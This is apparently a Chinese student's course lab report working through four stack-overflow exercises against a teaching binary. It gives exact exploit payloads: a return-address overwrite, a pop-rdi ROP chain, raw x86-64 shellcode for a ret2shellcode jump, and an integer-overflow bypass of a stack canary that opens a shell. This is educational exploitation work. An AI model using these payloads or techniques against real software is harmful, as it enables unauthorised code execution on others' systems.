




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
    简单的栈溢出漏洞，有strcpy危险函数，可以通过输入padding掉栈上空间和rbp直到返回地址处，将返回地址覆盖为0x401216，即可输出目标语句
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
    `payload=b'a'*16+b"\x16\x12\x40\x00\x00\x00\x00\x00"`
- **结果**：附上图片
    

### Problem 2:
- **分析**：
    简单的构造ROP攻击，同problem1先利用strcpy函数覆盖到返回地址处，将返回地址改为`pop_rdi; ret; `的地址，再在输入时附上1016，再跳转到目标函数0x401216处，即可实现64位传参1016调用目标函数，得到目标输出
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
    `payload=b'a'*16+b"\xc7\x12\x40\x00\x00\x00\x00\x00"+b"\xf8\x03\x00\x00\x00\x00\x00\x00"+b"\x16\x12\x40"+b"\x00"*5`
- **结果**：附上图片
    

### Problem 3: 
- **分析**：
    简单的ret2shellcode攻击，观察func函数，发现里面存在一个保存当前rsp指针的机制，而jump_xs可以使得程序执行流跳转到栈上buffer存储处，而buffer是我们的输入的字符串，所以在构造payload的时候前面一些字节要构造成自定义shellcode(将114放入rdi，跳转到func1执行)，相关机器码可以参考题目给的mov_rdi mov_rax jmp_rax进行构造，后续常规padding到返回地址处，将返回地址覆盖为jump_xs的地址
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
    ```python
    import struct

    shellcode = (
        b"\x50"                                 # push rax (align stack)
        b"\x48\xc7\xc7\x72\x00\x00\x00"         # mov rdi, 114
        b"\x48\xc7\xc0\x16\x12\x40\x00"         # mov rax, 0x401216
        b"\xff\xd0"                             # call rax
    )

    padding = b'a' * (40 - len(shellcode))

    ret_addr = b"\x34\x13\x40\x00\x00\x00\x00\x00"

    payload = shellcode + padding + ret_addr
    ```
- **结果**：附上图片
    

### Problem 4: 
- **分析**：体现canary的保护机制是什么
    canary保护机制体现在main、func、func1等函数里面开头将fs段偏移0x28位置的8字节数存入rbp-8的位置以及返回时检查栈上rbp-8位置的8字节数是否被篡改
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
    这个题的canary保护机制没有起到作用，因为我根本没有用到前面的字符串输入和栈溢出攻击，我利用的是整数溢出攻击，在向rbp-0xA0位置的数组第一个数字进行输入时，输入-1，即可被识别为最大的无符号数，他在func1检查时正好符合if分支条件，成功getshell
- **结果**：附上图片
    

## 思考与总结
    整个attacklab让我了解了常见的几种二进制安全漏洞和利用机制，包括最常见的ROP攻击和canary保护机制。
    在大部分二进制程序里，NX堆栈不可执行保护是通常被打开的，所以利用程序自身的栈溢出漏洞并进行ROP攻击是最常用的二进制攻击手段。
    在学习栈溢出漏洞的情况下，也不能忘记整数在有符号到无符号数转换时会产生的隐藏漏洞，有时候程序往往忘记这个漏洞，导致某些保护机制被绕开
    栈溢出漏洞总的来说就是要控制程序执行流，即尽可能将栈的返回地址能够覆写或者控制，并操控寄存器进行传参。当原本程序中不存在可用的gadget片段或者漏洞函数时，可以再思考利用ret2libc等高级方法去getshell

## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
基础栈溢出ROP教程 (https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/)
基础整数溢出教程 (https://ctf-wiki.org/pwn/linux/user-mode/integeroverflow/introduction/)